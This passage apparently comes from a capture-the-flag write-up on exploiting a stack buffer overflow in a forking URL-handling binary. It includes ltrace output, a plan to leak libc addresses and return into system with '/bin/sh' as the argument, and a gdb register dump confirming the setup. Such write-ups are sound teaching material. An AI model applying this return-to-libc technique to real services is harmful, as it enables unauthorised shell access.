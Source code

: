 ```
strncmp("http://ABCDAAAAAAAAAAAAAAAAAAAAA"..., "http://", 7)                                          = 0
strlen("http://ABCDAAAAAAAAAAAAAAAAAAAAA"...)                                                         = 41
strlen("ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAA"...)                                                         = 34
strncpy(0x7fff63584310, "ABCDAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 34)                                    = 0x7fff63584310
read(0, "\n", 1)                                                                                      = 1
read(0, "", 1)                                                                                        = 0
exit(0 <no return ...>
+++ exited (status 0) +++
```

Now we can see that everything happened exactly as predicted. And the
destination for the strncpy is indeed on the stack. Now we need to develop a
reliable exploit for the child process.

So I used a combination of `binjitsu` and `gdb` with the
[peda plugin](https://github.com/longld/peda) to develop my exploit. First I
didn't go through the parent process, so that debugging is easier.

Now we cannot have `NULL` bytes in the buffer, or else `strncpy` won't copy
them onto the stack. This makes exploitation a little bit tricky. We
effectively cannot use ROP because most or probably all gadgets have `NULL`
bytes in their addresses. This also makes return to libc very hard, as we
cannot easily control the parameters, which are passed in the registers.


### Exploitation Attempts

Fortunately the child does not call `dup2` so stdin and stdout can be used in
the child process as usual. This means we can also interact with a shell
spawned in the child process, as long as the parent process doesn't try to read
from stdin. Output should never be a problem.

My first attempt was the following:

  1. Leak address of read from the parent process. Because `fork` doesn't
     change the address space layout, we can compute the base address of the
     libc for both the child and the parent process.
  2. Overwrite return address with the address of `system` executing the
     command that `rdi` points to.

This should work because when we return from the vulnerable function, `rdi`
contains a pointer to our buffer on the stack, directly after the `http://`
prefix. Because the first and only parameter to `system` is passed in `rdi` we
put our command directly after the `http://`. So that's what I did. In `gdb` we
can see that everything looks good.

```
Breakpoint 2 at 0x400cc9
gdb-peda$ c
Continuing.
[----------------------------------registers-----------------------------------]
RAX: 0x1111
RBX: 0x0
RCX: 0x1111
RDX: 0x4142434445464748 ('HGFEDCBA')
RSI: 0x1111
RDI: 0x7ffc467f0f00 ("/bin/sh ; # ", '\220' <repeats 188 times>...)
RBP: 0x4041424345464748 ('HGFECBA@')
RSP: 0x7ffc467f1128 --> 0x7f7b40863890 (<system>:       test   rdi,rdi)
RIP: 0x400cc9 (ret)
R8 : 0x5
```